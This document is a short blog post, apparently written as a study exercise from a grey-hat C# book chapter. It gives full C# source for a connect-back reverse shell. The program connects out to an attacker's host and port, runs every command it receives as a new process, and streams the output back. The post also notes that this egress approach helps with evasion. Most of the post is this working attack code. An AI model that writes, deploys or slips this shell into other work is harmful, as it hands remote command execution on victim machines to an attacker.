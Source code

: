 ```yaml
---
title: Writing a program which allows an attacker to start a listener and listen for a connection back from a victim host.
date: 2021-07-09 10:45:47 +07:00
categories: greyhatcch4
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Reverse Shell.
---
```



## We write a program which allows an attacker to start a listener and listen for a connection back from a victim host.

- We use the following classes:

> TCPClient - to create a new TCPClient object.

> Stream - to create a stream to read/wrtie to.

> StreamReader - read commands from incoming stream.

> Process and ProcessStartInfo(add/control certain options in Process()) - run commands from an attacker using a new process.

- We use the Split method to split commands into their respective filenames and arguments.

- Helps in evasion, egress traffic from a victim host is less scrutinized.

## Code:

```csharp
using System;
using System.IO;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Net;
using System.Net.Sockets;
using System.Diagnostics;

namespace Connect_Back_Payload
{
    public class MainClas
    {
        public static void Main(string[] args)
        {
            Console.WriteLine("[+] Welcome to your connect back shell\n- Enter a command on your attacker terminal to continue\n");
            // Convert only port from str to int
            using (TcpClient client = new TcpClient(args[0], int.Parse(args[1])))
            {
                //Read/Write to stream
                using (Stream stream = client.GetStream())
                {
                    //Read cmds from attacker
                    using (StreamReader rdr = new StreamReader(stream))
                    {
                        //Read from stream as long as attacker sends cmds
                        while (true)
                        {
                            string cmd = rdr.ReadLine();
                            // If empty
                            if (string.IsNullOrEmpty(cmd))
                            {
                                rdr.Close();
                                stream.Close();
                                client.Close();
                                return;
                            }
                            // Contains only whitespace
                            if (string.IsNullOrWhiteSpace(cmd))
                                continue;

                            //Split cmd into cmd and args
                            string[] split = cmd.Trim().Split(' ');
                            string filename = split.First();
                            string arg = string.Join(" ", split.Skip(1));

                            //Run cmd and return output
                            try
                            {
                                Process prc = new Process();
                                prc.StartInfo = new ProcessStartInfo();
                                prc.StartInfo.FileName = filename;
                                prc.StartInfo.Arguments = arg;
                                //Execute cmds in same shell context
                                prc.StartInfo.UseShellExecute = false;
                                prc.StartInfo.RedirectStandardOutput = true;
                                prc.Start();
                                //Copy stdout to stream and send to attacker
                                prc.StandardOutput.BaseStream.CopyTo(stream);
                                prc.WaitForExit();
                            }
                            catch
                            {
                                string error = "[+] Error running command: " + cmd + "\n";
                                byte[] errorBytes = Encoding.ASCII.GetBytes(error);
                                stream.Write(errorBytes, 0, errorBytes.Length);
                            }
                                
                            
                        }
                    }


                }

            }
        }
    }
}

```

## Output:

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/csharp/greyhatc/Ch4/Connect-back-payload/connect_back.png)
